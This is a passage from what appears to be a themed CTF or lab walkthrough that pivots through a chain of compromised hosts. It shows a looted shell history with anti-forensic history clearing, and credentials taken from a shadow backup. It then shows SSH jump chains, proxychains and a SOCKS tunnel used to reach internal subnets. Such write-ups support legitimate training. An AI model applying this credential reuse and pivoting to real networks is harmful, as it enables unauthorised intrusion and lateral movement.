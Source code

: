 ```
HA
```

##### less gluttony.log
```
ssh Cerberus@10.1.10.
excess
^C
^C
history -C
ssh Cerberus@10.1.10.3
ssh cerberus@10.1.10.3
unsetHISTFILE
exit
```

##### less shadow.bak
```
pluto:mammon
```

##### less ssh_jump.txt
```
ssh -L 4445:72.69.76.2:445 -J virgil@192.168.1.200:22,cleopatra@172.1.98.15:22,cerberus@10.1.10.3:22,pluto@10.0.0.254:22,phlegyas@255.255.255.9:22,epicurus@9.9.9.8:22,minotaur@222.222.222.187:22,
geryon@3.3.3.3:22 satan@6.6.6.6 -p 22
```

#### Credentials Discovered
```
Cerberus:excess
pluto:mammon
```

##### ssh to 10.1.10.3
```
proxychains ssh cerberus@10.1.10.3
```

##### Check sudo permissions
![Pasted image 20250604141839](../zzAttachments/Pasted%20image%2020250604141839.png)

### Greed
- IP - 10.0.0.254

###### Setup a NEW dynamic tunnel to reach 10.0.0.254
```
ssh -N -D 1080 -J virgil@192.168.1.200,cleopatra@172.1.98.15 cerberus@10.1.10.3
```
